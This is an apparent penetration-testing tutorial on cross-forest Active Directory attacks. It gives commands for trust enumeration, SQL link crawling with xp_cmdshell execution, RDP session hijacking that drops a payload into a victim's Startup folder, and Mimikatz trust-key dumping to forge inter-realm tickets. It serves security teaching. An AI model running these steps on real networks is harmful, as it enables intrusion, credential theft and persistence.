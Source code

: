 ```yaml
---
title: Cross Forest Attacks
category: Active Directory
order: 6
---
```


In this section we are going to abuse trusts between forests.

# One-Way (Inbound)

When a trust is inbound in our perspective, it means that principals in our domain can be granted access to resources in the foreign domain.

* PowerView (dev):

```powershell
Get-DomainComputer -Domain external.local -Properties DNSHostName
```
* BloodHound:

```
.\SharpHound.exe -c DcOnly -d external.local
```

We can enuemrate also groups that contains users outside of its domain.

* PowerView (dev):

```powershell
Get-DomainForeignGroupMember -Domain external.local 
```
The `MemberName` field contains a SID that can be resolved in our current domain with:

```powershell
ConvertFrom-SID  S-1-5-21-3263068140-2042693922-2891547269-1132
```
# One-Way (Outbound)

If Domain A (Me) trusts Domain B, users in Domain B can access resources in Domain A but users in Domain A should not be able to access resources in Domain B. But there are some circumstances in which we can slide under the radar. An example of this includes SQL Server Links.

## Trust Abuse with MSSQL Server

MSSQL Servers are generally deployed in plenty windows domain. SQL Servers provide very good options for lateral movement as domain users can be mapped to dabase roles.

A fantastic tool to abuse MSSQL is `PowerUpSQLl`: 

* [https://github.com/NetSPI/PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)
```powershell
Import-Module .\PowerUpSQL.psd1
```

> **Note**: Important! Write `Import-Module` and import which have **PSD1** extension.

We can discover SQL servers:

```powershell
Get-SQLInstanceDomain
```

We can check accessibility:

```powershell
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```
Gather information:

```powershell
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

### Database Links

A database link allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources. In case of databases links between Microsoft SQL Servers, it is possible to execute stored procedures which means RCE.

Database link works even across forest trusts.

```powershell
Get-SQLServerLink -Instance mssql.corp.local -Verbose
```

So we can execute queries on the remote Server Link, see if this server has others links and above, instead of doing it manually that will be explained in a note, exists a script that crawls all the mssql server links.

```powershell
Get-SQLServerLinkCrawl -Instance mssql.corp.local -Verbose
```

> **Note**: Manual way:
>
> See if has a server link:
> `select * from master..sysservers`
>
> Openquery() function can be used to run quieries on a linked database:
> `select * from openquery("CORP-SQL1", 'select * from master..sysservers')`
>
> `select * from openquery("CORP-SQL1", ''select * from openquery("CORP-SQL2", 'master..sysservers'')')`

To execute commands from MSSQL server we need to use `xp_cmdshell`. If `rpcout` is enabled `xp_cmdshell` can be enabled using:

```
EXECUTE('sp_configure "xp_cmdshell",1;reconfigure;') AT "other-sql"
```

And finally:

```powershell
Get-SQLServerLinkCrawl -Instance mssql.corp.local -Query "exec master..xp_cmdshell 'whoami'"
```

## RDPInception

Another way is via RDP drive sharing (**RDPInception**). When a user enables drive sharing for their RDP sessions, it creates a mount-point on the target machine that maps back to their local machine. If the target machine is compromised, we may migrate into RDP users's session and use this mount-point to write files directly onto their machine. Useful for dropping payloads into their startup folder which would be executed the next time they logon.

The strategy is to find principals in our current domain that are not native to that domain, but are from `external.local`.

* PowerView (dev):

```
Get-DomainForeignGroupMember -Domain corp.local
```

> **Note**: We can not convert the SID with `ConvertFrom-SID` since we don't have access to the other Domain.

A nice methodology is to enumerate the current domain and find instances where members of the foreign domain, have privileged access (local admin, RDP, WinRM, DCOM access), move laterally to those machines, and camp there until you see a member authenticate. Then, impersonate them to hop the trust.

`Get-DomainGPOUserLocalGroupMapping` and `Find-DomainLocalGroupMember` can work for that task:

* PowerView (dev):

```
Get-DomainGPOUserLocalGroupMapping  -Identity "Jump Users" -LocalGroup "Remote Desktop Users" | select -expand ComputerName
Find-DomainLocalGroupMember -GroupName "Remote Desktop Users" | select -expand ComputerName
```
Once the foreign user logs on one of our compromised computers, we can hijack his RDP session. Example above from Cobalt Strike.

```
beacon> ps

 PID   PPID  Name                         Arch  Session     User
 ---   ----  ----                         ----  -------     -----
 2365  1012  rdpclip.exe                  x64   3           EXT\j.doe
```

```
beacon> inject 2365 x64 tcp-local
[+] established link to child beacon: 10.10.10.10
```

Now at that moment we can do import PowerView and enumerate the domain, because we simply hijacked and existing authenticated session and we are inside a valid `external.local` domain.


Inside the user RDP session if `Drive Sharing` is enabled a **UNC tsclient** has a mount point for every drive that is being shared over RDP.

`\\tsclient\C` is the `C:\` drive of the origin machine of the RDP session, so we can upload a bat or exe to the users startup folder.

```
beacon> cd \\tsclient\c\Users\j.doe\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
beacon> upload payload.exe
```


# Across Forests using Trust Tickets

First we need to retrieved the Trust Key:

```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'
```

> **Note**: The access we will have will be limited to what our DA account is configured to have on the other Forest!

An **inter-realm TGT** can be forged:

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-268341927-4156871508-1792461683 /rc4:cd3fb1b0b49c7a56d285fffdd1399231 /service:krbtgt /target:extcorp.local /ticket:C:\temp\trust_forest_tkt.kirbi"'
```
* **Invoke-Mimikatz**

|                   **Parameter**                   |                 **Description**                |
|:-------------------------------------------------:|:----------------------------------------------:|
| /domain:sub.corp.local                            | Current Domain FQDN                            |
| /sid:S-1-5-21-268341927-4156873456-1784235843     | Current Domain SID                             |
| /user:Administrator                               | User to impersonate                            |
| /rc4:a9b30e5b0dc865eadcea9411e4ade72d             | krbtgt hash of Current Domain                  |
| /service:krbtgt                                   | krbtgt service to abuse                        |
| /target:extcorp.local                             | Target domain                                  |
| /tiket:C:\Windows\Temp\trust_tkt.kirbi            | File to store the ticket                       |



Now we can request a TGS for `cifs` service on the dc of the trusted forest.

* Asktgs.exe (kekeo_old)

```powershell
.\asktgs.exe c:\temp\trust_forest_tkt.kirbi CIFS/dc01.extcorp.local
```

* Rubeus.exe
```powershell
.\Rubeus.exe asktgs /ticket:trust_forest_tkt.kirbi /dc:dc01.extcorp.local /service:CIFS/dc01.extcorp.local
```

And inject the ticket on the current session:

```powershell
.\kirbikator.exe lsa .\CIFS.dc01.extcorp.local.kirbi
```
> **Note**: We can not list all the file system of other forest. We can only list shared folders.

```
ls \\dc01.extcorp.local\share\
```
